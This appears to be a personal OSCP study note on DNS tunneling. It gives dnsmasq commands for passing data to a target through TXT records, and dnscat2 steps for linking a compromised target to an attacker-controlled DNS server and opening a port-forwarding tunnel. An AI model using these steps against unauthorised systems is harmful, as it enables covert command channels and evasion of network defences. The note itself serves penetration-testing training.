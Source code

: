 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/k. Port Redirection & Tunneling/4. DNS Tunneling/"}
---
```


-------
## Manual DNS TXT Record Infiltration with dnsmasq:
1. Edit 'dnsmasq_txt.conf' on controlled dnsmasq server. Example:
```
# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```
2. Start dnsmaq:
```
sudo dnsmasq -C dnsmasq_txt.conf -d
```
3. Check that DNS requests are properly routed on target:
```
resolvectl status
```
4. Run a TXT resolution from the target to the server:
```
nslookup -type=txt www.feline.corp
```

--------------
## DNS Tunneling with dnscat2:
1. Start dnscat2-server on your authorative DNS server:
```
dnscat2-server <domain>
```
2. Transfer the dnscat binary to the target from: https://github.com/iagox86/dnscat2
3. Start the clients and connect them:
```
./dnscat --secret=<secret> <domain>
```
4. Enter your initiated window from the server:
```
#List active windows:
windows

#Enter the window:
window -i 1
```
5. Set up remote port forwarding tunnel:
```
listen 0.0.0.0:2345 <outip>:<outport>
```
6. Use tunnel with server port and ip = win!

